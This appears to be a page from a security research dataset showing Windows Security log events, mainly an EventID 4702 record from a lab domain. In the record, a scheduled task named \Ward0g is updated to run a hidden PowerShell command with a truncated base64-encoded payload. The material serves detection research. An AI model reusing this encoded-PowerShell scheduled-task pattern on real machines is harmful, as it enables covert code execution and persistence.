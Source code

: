 ### Security Log
* EventID 4624: Successful Logon

* EventID 4702 (Target): A Scheduled Task Was updated

```xml
- <Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
    - <System>
        <Provider Name="Microsoft-Windows-Security-Auditing" Guid="{54849625-5478-4994-a5ba-3e3b0328c30d}" />
        <EventID>4702</EventID>
        <Version>1</Version>
        <Level>0</Level>
        <Task>12804</Task>
        <Opcode>0</Opcode>
        <Keywords>0x8020000000000000</Keywords>
        <TimeCreated SystemTime="2020-12-16T17:12:22.000309100Z" />
        <EventRecordID>2292968</EventRecordID>
        <Correlation ActivityID="{262c1204-cb81-0000-0dbf-29867cced601}" />
        <Execution ProcessID="740" ThreadID="1560" />
        <Channel>Security</Channel>
        <Computer>WORKSTATION6.theshire.local</Computer>
        <Security />
    </System>
    - <EventData>
        <Data Name="SubjectUserSid">S-1-5-21-3786818125-2382361537-3207726629-1104</Data>
        <Data Name="SubjectUserName">pgustavo</Data>
        <Data Name="SubjectDomainName">THESHIRE</Data>
        <Data Name="SubjectLogonId">0x9ac216f</Data>
        <Data Name="TaskName">\Ward0g</Data>
        <Data Name="TaskContentNew"><?xml version="1.0" encoding="UTF-16"?> <Task version="1.2" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task"> <RegistrationInfo> <Date>2020-12-16T08:09:21.4521839</Date> <Author>THESHIRE\sbeavers</Author> <Description>Que pasa</Description> <URI>\Ward0g</URI> </RegistrationInfo> <Triggers> <RegistrationTrigger> <Enabled>true</Enabled> </RegistrationTrigger> </Triggers> <Principals> <Principal id="Author"> <UserId>S-1-5-21-3786818125-2382361537-3207726629-1106</UserId> <LogonType>InteractiveToken</LogonType> <RunLevel>LeastPrivilege</RunLevel> </Principal> </Principals> <Settings> <MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy> <DisallowStartIfOnBatteries>true</DisallowStartIfOnBatteries> <StopIfGoingOnBatteries>true</StopIfGoingOnBatteries> <AllowHardTerminate>true</AllowHardTerminate> <StartWhenAvailable>false</StartWhenAvailable> <RunOnlyIfNetworkAvailable>false</RunOnlyIfNetworkAvailable> <IdleSettings> <StopOnIdleEnd>true</StopOnIdleEnd> <RestartOnIdle>false</RestartOnIdle> </IdleSettings> <AllowStartOnDemand>true</AllowStartOnDemand> <Enabled>true</Enabled> <Hidden>false</Hidden> <RunOnlyIfIdle>false</RunOnlyIfIdle> <WakeToRun>false</WakeToRun> <ExecutionTimeLimit>PT72H</ExecutionTimeLimit> <Priority>7</Priority> </Settings> <Actions Context="Author"> <Exec> <Command>powershell</Command> <Arguments>-noP -sta -w 1 -enc SQBGACgAJABQAFMAVgBFAFIAUwBpAE8ATgBUAGEAQgBMAGUALgBQAFMAVgBlAHIAUwBwAt.....</Data>
        <Data Name="ClientProcessStartKey">0</Data>
        <Data Name="ClientProcessId">0</Data>
        <Data Name="ParentProcessId">0</Data>
        <Data Name="RpcCallClientLocality">0</Data>
        <Data Name="FQDN">WORKSTATION6.theshire.local</Data>
    </EventData>
</Event>
```
